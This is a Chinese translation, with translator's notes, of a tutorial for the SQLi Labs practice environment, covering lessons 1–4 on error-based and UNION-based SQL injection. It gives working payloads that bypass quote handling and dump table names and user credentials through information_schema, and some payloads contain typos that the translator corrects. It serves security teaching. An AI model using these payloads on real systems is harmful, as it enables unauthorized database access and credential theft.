








译者：SQL Libs一直也没看到有人写过比较完整的指南，只有作者在自己的博客上帖了一些tip和一些视频，偶然看到一篇文章在写这个，便拿过来翻一下，以作参考，原文较长，分成几个部分。

##简介

结构化查询语言，也叫做SQL，从根本上说是一种处理数据库的编程语言。对于初学者，数据库仅仅是在客户端和服务端进行数据存储。SQL通过结构化查询，关系，面向对象编程等等来管理数据库。编程极客们总是搞出许多这样类型的软件，像MySQL，MS SQL ,Oracle以及Postgresql。现在有一些程序能让我们有能力通过结构化查询来管理大型数据库。脚本小子们一定已经动手体验了类似SQL注入等这样的操作，虽然他们可能已经通过使用自动化工具例如SQL Map或者SQLNinja来实施攻击，但却还不知它真正的原理。在这篇简短的教程里，我将会尽力让你对SQL 注入是怎样工作的，攻击是怎样发生的以及什么是应用程序SQL漏洞有一个深入的理解。我们将要使用的实验室是SQLi Labs，它是一个可以从[https://github.com/Audi-1/sqli-labs](https://github.com/Audi-1/sqli-labs)免费下载，以便我们研究学习以及编写安全的程序。所以这篇教程对于程序员和安全测试者都将是一次动手实践的机会。

##安装

1. 从[https://github.com/Audi-1/sqli-labs](https://github.com/Audi-1/sqli-labs)下载源代码
2. 将源代码复制到Apache webroot 文件夹（htddocs，/var/www）
3. 打开sql-connections文件夹下的“db-creds.inc”文件
4. 修改mysql用户名和密码为你自己的
5. 打开浏览器，通过localhost的index.html访问文件夹
6. 点击setup/resetDB 链接在你的mysql中创造数据库
7. 开始游戏！

##实验

###第一节：GET - 基于错误 - 单引号 - 字符型

你会看到“Welcome Dhakkan”（一个北印度俚语，通常指愚蠢的人）。SQLI Labs的编码者一定是一个很幽默的人。现在我们用数字型注入可以得到一个“id”参数。

**-> ?id=1**

开火！

任务完成！我们得到了登陆名 Dumb 和密码 Dump。我们在URL上添加了一个参数，并让这个参数指向第一条记录。这是便生成了一个从浏览器到数据库的表中的一个快速的查询，从而来获取“id=1”的记录。同样，你可以构造查询来得到后面的记录如 2,3,4......。

在后端的实际查询如下：

`Select * from TABLE where id=1;`

**译者注：**

原文这里只是给了简单的用了id=1来正常查询了一条记录，根据原程序作者博客的说明，这里应该是有一个字符型的单引号注入，如下解释：)

在第一节index.php文件的第29行中：

`$sql="SELECT * FROM users WHERE id='$id' LIMIT 0,1";`

这里的$id是被单引号包裹的。

通过如下的注入查询可以验证：

`id=1'`

（这样看来，原文作者上面给的实际执行的SQL语句就不对了，应为**Select * from TABLE where id='1';**）

以下两个注入可以成功执行。

`' or '1'='1`

`' or 1=1 --+`

后者采用的注释的方法。

tip：order by语句可以用来获得字段数

###第二课： GET - 基于错误 - 数字型

现在我们尝试通过类似于输入字符串的方法来攻击应用程序，例如“abc”和“abcd”。我们注意到在lesson 2中我们收到了一个从数据库返回的错误。下面我们对数字做一些篡改，将'（单引号）添加到数字中。

我们又得到了一个Mysql返回的错误，提示我们语法错误。

**You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ‘’ LIMIT 0,1′ at line 1**

现在执行的查询语句如下：

`Select * from TABLE where id = 1’ ;`

所以这里的奇数个单引号破坏了查询，导致抛出错误。

因此我们得出的结果是，查询代码使用了整数。

`Select * from TABLE where id = (some integer value);`

现在，从开发者的视角来看，为了对这样的错误采取保护措施，我们可以注释掉剩余的查询：

`http://localhost/sqli-labs/Less-2/?id=1–-`

注意：一定要在注释符号后加空格，或者URL编码后的空格（%20），否则注释符号不会产生作用。

**译者注:**

这小节中,原作者同样使用了单引号来注入，但这并不代表着这个小节，是基于字符串的，大家可以观察一个单引号注入后的出错信息，
**'' LIMIT 0,1′ at line 1**和上面我备注图中的引号个数是不一样的，稍微分析下，便可以明白。

源代码中31,32行为此处的SQL查询语句。

`$sql="SELECT * FROM users WHERE id=$id LIMIT 0,1";`

可以成功注入的有：

` or 1=1`
` or 1=1 --+ `

###第三课：基于错误-单引号变形-字符型

在这届课中，我们将会来学习实施一次基于错误的单引号攻击。在下面的截图中，我们使用

`?id='`

注入代码后，我们得到像这样的一个错误：

**MySQL server version for the right syntax to use near ””) LIMIT 0,1′ at line 1**

这里它意味着，开发者使用的查询是：

`Select login_name, select password from table where id= (‘our input here’)`

所以我们再用这样的代码来进行注入：

`?id=1′) –-+`

这样一来，我们便可以得到用户名和密码了，同时后面查询也已经被注释掉了。

**译者注：**

源代码中的SQL查询语句，31行：

`$sql="SELECT * FROM users WHERE id=('$id') LIMIT 0,1";`

可以成功注入的有：

`') or '1'=('1`
`') or 1=1 --+`

###第四课：基于错误-双引号-字符型

在这节课中，我们将会学习进行一个基于错误的双引号攻击，如下图所示：

`?id=1"`

注入这段代码后，我们可以看到一个用户名和密码。(译者注：这里看不到用户名密码，反而是出错信息，暂时弄不清楚作者为什么出现这个情况)现在我们可以尝试着去下载数据库来检索一些敏感信息。我们假设一开始数据库中有3列信息。那么我们这里就可以用联合查询命令来下载数据库：

`?id=1") union selcect 1,2,3 --+`

现在做一些SQL的基本操作，我们启动mysql，然后通过查询检查下数据库:

`show databases;`

这个实验用到的数据库名为**security**,所以我们选择security来执行命令。

`use security;`

我们可以查看下这个数据库中有哪些表

`show tables;`

现在我们可以看到这里有四张表，然后我们来看下这张表的结构。

`desc emails;`

在继续进行前台攻击时，我们想讨论下系统数据库，即**information_schema**。所以我们使用它

`use information_schema`

让我们来看下表格。

`show tables;`

现在我们先来枚举这张表

`desc tables;`

现在我们来使用这个查询：

`select table_name from information_schema.tables where table_schema = "security";`

使用这个查询，我们可以下载到表名。我们现在来将这个查询注入到URL，查询变为

`?id=1”) union select 1,table_name,3 from information_schema.tables where table_schema=’security’ --+`

**译者注：**

*start*

这里原文作者可能本意的查询语句是如下这个：

`?id=”) union select 1,table_name,3 from information_schema.tables where table_schema=’security’ --+`

现在我们可以从屏幕中看到第一个表名email。

*end*

另一个方法是将所有表的名字分组然后作为文本把它下载下来。查询如下：

`?id=1') union select 1,group_concat(table_name),3 from information_schema.tables where table_schema=’security’ –-+`

**译者注：**

*start*

这里原文作者可能本意的查询语句是如下这个：

`?id='') union select 1,group_concat(table_name),3 from information_schema.tables where table_schema=’security’ –-+`

现在我们可以从屏幕中看到第一个表名email。

*end*

我们可以从结果中看到所有的表。

我们合并多个不同的列，并下载下来。

`?id=1' union select 1,group_concat(username),group_concat(password) from users –-+`

**译者注：**

*start*

这里原文作者可能本意的查询语句是如下这个：

`?id=' union select 1,group_concat(username),group_concat(password) from users –-+`

*end*

结果如图所示。

**译者注：**

上面三个联合查询，id后面的符号，要根据你所在的那个实验里面，根据作者的截图，它是在第一个实验里，所以是使用的单引号，如果是在基于双引号的查询里，需要使用双引号。

另外三个联合查询作者给的注入语句，id后都有一个1，这时候是显示不出来你想要的，因为这时候注入的查询语句会返回两行，而只是显示第一行。

源代码中sql查询语句，31,31行：

`$id = '"' . $id . '"';`

`$sql="SELECT * FROM users WHERE id=($id) LIMIT 0,1";`

可以成功注入的有：

`")or ("1")=("1`

`")or 1=1 --+`

via:[infosecinstitute](http://resources.infosecinstitute.com/tutorial-on-sqli-labs/)
